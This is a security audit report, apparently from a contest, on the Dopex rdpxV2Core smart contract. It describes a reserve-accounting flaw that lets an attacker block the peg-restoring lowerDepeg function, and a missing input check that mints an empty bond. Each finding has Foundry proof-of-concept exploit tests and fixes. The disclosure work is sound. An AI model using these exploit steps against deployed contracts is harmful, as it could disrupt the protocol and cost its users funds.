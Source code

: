 # About **Dopex**

A rebate system for option writers in the Dopex Protocol.

# Findings Summary

| ID     | Title                   | Severity | Status |
| ------ | ----------------------- | -------- | ------ |
| [H-01] | The peg stability module can be compromised by forcing lowerDepeg to revert. | High | ✅    |
| [L-01] | Insufficient input validation let's users mint a free bond     | Low     | ✅    |

# Detailed Findings

# [H-01] The peg stability module can be compromised by forcing lowerDepeg to revert.

## Impact
In a scenario where extreme market conditions necessitate the execution of the `lowerDepeg` function to restore the dpxETH/ETH peg, an attacker can exploit the flawed interaction between the `addToDelegate`, `withdraw`, and `sync` functions to force a revert on the admin's attempt to restore the peg. As a result, the protocol will not be able to effectively defend the peg, leading to potential disruptions in the protocol's peg stability module.

## Proof of Concept
If 1 dpxETH < 1 ETH, the `rpdxV2Core` contract admin will call the `lowerDepeg` function to restore the peg. The backing reserves are used to buy and burn dpxETH from the curve pool to bring back the peg to 1 ETH. An attacker can execute a transaction to manipulate the WETH reserves and cause the admin transaction to revert.

1. The attacker initiates the exploit by calling the `addToDelegate` function, and depositing WETH into `rpdxV2Core` contract. By doing so, the attacker effectively updates the `totalWethDelegated` state variable, increasing it by the deposited amount.
https://github.com/code-423n4/2023-08-dopex/blob/main/contracts/core/RdpxV2Core.sol#L964

2. The attacker subsequently calls the `withdraw` function, which does not update the `totalWethDelegated` state variable. Consequently, the `totalWethDelegated` variable retains the inflated value of WETH delegated, even though the WETH has neither been delegated nor it remains available, since it was withdrawn.
https://github.com/code-423n4/2023-08-dopex/blob/main/contracts/core/RdpxV2Core.sol#L975-L990

3. Finally, the attacker calls the `sync` function which inaccurately updates the WETH reserves by subtracting the inflated `totalWethDelegated` value. This manipulation artificially reduces the WETH reserves in the contract to a really small value or even zero.
https://github.com/code-423n4/2023-08-dopex/blob/main/contracts/core/RdpxV2Core.sol#L1002

4. The `rpdxV2Core` admin calls the `lowerDepeg` function to restore the dpxETH/ETH peg, which ultimately will revert due to an underflow error. 
https://github.com/code-423n4/2023-08-dopex/blob/main/contracts/core/RdpxV2Core.sol#L1110

Note that the attacker can loop through the process outlined in steps 1. and 2., thereby increasing the `totalWethDelegated` through a small input amount, before executing the sync function. As a result, this attack becomes financially inexpensive to execute.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.19;

import {Setup} from "./Setup.t.sol";
import "../../lib/forge-std/src/console.sol";
import "../../lib/forge-std/src/StdError.sol";

contract Exploit is Setup {
    function testExploitWETHReserves() external {
        // note: setup
        address user1 = address(0x1001);
        address user2 = address(0x1002);
        weth.mint(address(user1), 10 ether);
        weth.mint(address(user2), 10 ether);
        rdpx.mint(address(user1), 1000000 ether);
        // user1 bonds
        vm.startPrank(user1);
        rdpx.approve(address(rdpxV2Core), type(uint256).max);
        weth.approve(address(rdpxV2Core), type(uint256).max);
        rdpxV2Core.bond(10 ether, 0, address(this));
        vm.stopPrank();

        // note: weth reserves manipulation 
        // gets the reserve of WETH in the core contract
        vm.startPrank(user2);
        (,uint256 wethReserveBefore,) = rdpxV2Core.getReserveTokenInfo("WETH");
        console.log("WETH reserve before: ", wethReserveBefore);
        // approve rpdxV2Core to spend WETH
        weth.approve(address(rdpxV2Core), type(uint256).max);
        // delegate WETH, and assert it was delegated
        uint256 delegateId = rdpxV2Core.addToDelegate(wethReserveBefore, 1e8);
        assertTrue(rdpxV2Core.totalWethDelegated() == wethReserveBefore);
        // withdraw WETH, assert WETH was withdrawn but it still says WETH is delegated
        rdpxV2Core.withdraw(delegateId);
        assertTrue(rdpxV2Core.totalWethDelegated() == wethReserveBefore);
        // assert that the user2 has the same balance he had before
        assertTrue(weth.balanceOf(user2) == 10 ether);
        // call sync and make WETH reserves -= WETH delegated
        rdpxV2Core.sync();
        // check the amount of WETH in reserves after and assert it is smaller than before
        (,uint256 wethReserveAfter,) = rdpxV2Core.getReserveTokenInfo("WETH");
        assertTrue(wethReserveBefore - rdpxV2Core.totalWethDelegated() == wethReserveAfter);
        console.log("WETH reserve after:  ", wethReserveAfter);
        vm.stopPrank();

        // note: admin tries to defend the peg.
        // update the dpxETH price to simulate 1 dpxETH < 1 ETH
        dpxEthPriceOracle.updateDpxEthPrice(98137847);
        // expect the transaction to revert with an underflow.
        vm.expectRevert(stdError.arithmeticError);
        rdpxV2Core.lowerDepeg(0, 10 ether, 0, 0);
}
```

## Tools Used
Manual Review, Foundry

## Recommended Mitigation Steps
Update the totalWethDelegated in the `withdraw` function. 
```solidity
    function withdraw(uint256 delegateId) external returns (uint256 amountWithdrawn) {
        _whenNotPaused();
        _validate(delegateId < delegates.length, 14);
        Delegate storage delegate = delegates[delegateId];
        _validate(delegate.owner == msg.sender, 9);

        amountWithdrawn = delegate.amount - delegate.activeCollateral;
        _validate(amountWithdrawn > 0, 15);
        delegate.amount = delegate.activeCollateral;
+       totalWethDelegated -= amountWithdrawn;

        IERC20WithBurn(weth).safeTransfer(msg.sender, amountWithdrawn);

        emit LogDelegateWithdraw(delegateId, amountWithdrawn);
    }
```

# [L-01] Insufficient input validation let's users mint a free bond
If a user calls the `bondWithDelegate` function with empty arrays for both `_amounts` and `_delegateIds`, unintendedly, a Bond with zero amount will be minted to the user.

## PoC
```solidity
contract Exploit is Setup {
    function testBondWithDelegateEmptyArrays() external {
        // create empty arrays to pass as arguments
        uint256[] memory _amounts = new uint256[](0);
        uint256[] memory _delegateIds = new uint256[](0);

        // calls bondWithDelegate
        rdpxV2Core.bondWithDelegate(address(this), _amounts, _delegateIds, 0);

        // assert that the user was able to mint a bond (although the bond has 0 amount).
        assertEq(rdpxV2Bond.balanceOf(address(this)), 1);
    }
} 
```

## Recommended Mitigation
Since the function `bondWithDelegate` already checks the length of `_amounts` and `_delegateIds` arrays are the same, consider adding a check to ensure that one of the arrays has a non-zero length.

```solidity
function bondWithDelegate(
    address _to,
    uint256[] memory _amounts,
    uint256[] memory _delegateIds,
    uint256 rdpxBondId
  ) public returns (uint256 receiptTokenAmount, uint256[] memory) {
    _whenNotPaused();
    // Validate amount
    _validate(_amounts.length == _delegateIds.length, 3);
+   _validate(_amounts.length != 0, 3);

    ...
  }
```